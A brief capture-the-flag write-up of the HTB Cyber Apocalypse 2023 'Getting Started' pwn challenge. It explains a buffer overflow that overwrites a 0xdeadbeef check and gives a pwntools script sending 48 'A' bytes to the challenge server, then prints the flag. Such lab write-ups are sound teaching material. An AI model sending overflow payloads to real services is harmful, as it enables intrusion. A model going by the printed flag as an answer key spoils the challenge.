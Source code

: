 # Getting Started - HTB Cyber Apocalypse 2023
> Writeup Author: [Mymaqn](https://github.com/Mymaqn)
>
> [`pwn_getting_Started.zip`](pwn_getting_started.zip)

## Description
Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

## Solution

The binary basically tells us it has a buffer overflow and we just need to overflow the 0xdeadbeef value to become anything else.

Sending 48 A's does the trick (but can be done in less).

All the information needed to figure this out is given by the binary itself when running it. No debugging or reversing required, just send a bunch of A's

```py
from pwn import *

io = remote("167.99.86.8",30042)

io.sendline(b'A'*48)

io.interactive()
```

## Flag
`HTB{b0f_s33m5_3z_r1ght?}`